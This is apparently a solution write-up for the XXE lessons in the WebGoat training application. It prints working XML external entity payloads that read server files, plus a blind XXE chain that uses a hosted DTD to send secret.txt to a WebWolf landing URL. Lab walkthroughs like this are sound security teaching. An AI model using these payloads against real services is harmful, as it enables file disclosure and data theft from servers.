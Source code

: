 # XXE

## Let's try

Send a comment and watch the request, we can see that request put our content into tag:

```XML
<?xml version="1.0"?>
<comment>  
    <text>
        9
    </text>
</comment>
```

So, we can intercept the request and change the body to:

```XML
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///">]>
<comment><text>&xxe;</text></comment>
```

## Modern REST framework

With previous one, the text was sent to the server by json. Now, we just need to change the content-type to application/xml and send payload like the previos challenge.

## Blind XXE assignment

From the given hints, we can upload file to WebWolf and read it through the xml modify in the challenge.
Upload to WebWolf:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?text=%file;'>">
```

And change the XML tag in the challenge with this:

```XML
<?xml version="1.0"?>
<!DOCTYPE comment [
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.1.0//XXE/secret.txt">
<!ENTITY % remote SYSTEM "http://localhost:9090/files/<NAME>/test.dtd">
%remote;
%all;
]>
<comment>
<text>
&send;
</text>
</comment>
```

Get the comment contain `WebGoat 8.0 rocks ...` and submit it.

